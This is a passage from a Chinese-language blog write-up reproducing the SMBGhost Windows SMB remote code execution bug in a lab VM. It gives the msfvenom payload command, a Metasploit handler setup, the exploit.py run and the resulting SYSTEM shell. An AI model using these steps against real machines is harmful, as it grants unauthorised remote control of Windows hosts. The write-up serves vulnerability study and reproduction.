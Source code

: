 <center>将SMBGhost_RCE_PoC-master脚本下载至虚拟机执行</center>
</center>

``` shell
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=4444 -b '\x00' -i 1 -f python
```

<center>
然后替换POC中exploit.py中USER_PAYLOAD的代码，并且将buf修改为USER_PAYLOAD

![](https://blog-pic-thorin.oss-cn-hangzhou.aliyuncs.com/%E5%9B%BE%E7%89%879.png)

将调整好的exploit.py放回虚拟机

打开新的qterminal 输入`msfconsole`

![](https://blog-pic-thorin.oss-cn-hangzhou.aliyuncs.com/%E5%9B%BE%E7%89%8710.png)

输入如下代码 </center>

```shell
use exploit/multi/handler
set payload windows/x64/meterpreter/bind_tcp
set lport 4444 //监听端口
set rhost 192.168.208.128 //目标主机
run
```

<center>

![](https://blog-pic-thorin.oss-cn-hangzhou.aliyuncs.com/%E5%9B%BE%E7%89%8711.png)

![](https://blog-pic-thorin.oss-cn-hangzhou.aliyuncs.com/%E5%9B%BE%E7%89%8712.png)

在输入run之前 先执行`python exploit.py ip`

![](https://blog-pic-thorin.oss-cn-hangzhou.aliyuncs.com/%E5%9B%BE%E7%89%8713.png)

出现 `meterpreter` 后输入`shell `
即成功反弹`shell`实现远程监听

![](https://blog-pic-thorin.oss-cn-hangzhou.aliyuncs.com/%E5%9B%BE%E7%89%8714.png)

输入`whoami`后发现获取了`authority\system`权限

![](https://blog-pic-thorin.oss-cn-hangzhou.aliyuncs.com/%E5%9B%BE%E7%89%8715.png)

</center>

<br>


## 3.1 漏洞分析及复现脚本分析

### 3.1.1 对蓝屏攻击时的内存转储文件分析并进行栈回溯：
